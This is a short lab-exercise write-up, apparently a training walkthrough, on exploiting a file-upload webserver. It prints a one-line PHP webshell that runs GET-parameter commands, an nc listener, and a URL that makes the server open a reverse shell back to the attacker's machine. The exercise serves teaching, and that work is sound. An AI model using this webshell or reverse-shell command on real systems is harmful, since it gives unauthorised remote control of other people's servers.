



# Practice and Examples

## Linux machine
Configured with a simple webserver where files can be uploaded.



### Exercise 1. 
Try uploading a webshell to the Linux box, then use the command: `nc <LOCAL-IP> <PORT> -e /bin/bash` to send a reverse shell back to a waiting listener on your own machine.

We upload a simple PHP webshell: 

```php
# webshell.php

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

We can check that it works by accessing the file on the server at `<SERVER_IP>/uploads/webshell.php?cmd=whoami`.



On the attacking machine, we set up a listener at port 6000:

```console
~$ nc -lnvp 6000
```

and we send a reverse shell back to the listener by accessing `http://10.10.88.37/uploads/webshell.php?cmd=nc%2010.10.188.168%206000%20-e%20/bin/bash`. i.e. we send the command `nc <LISTENER_IP> <PORT> -e /bin/bash` as the `GET` parameter.



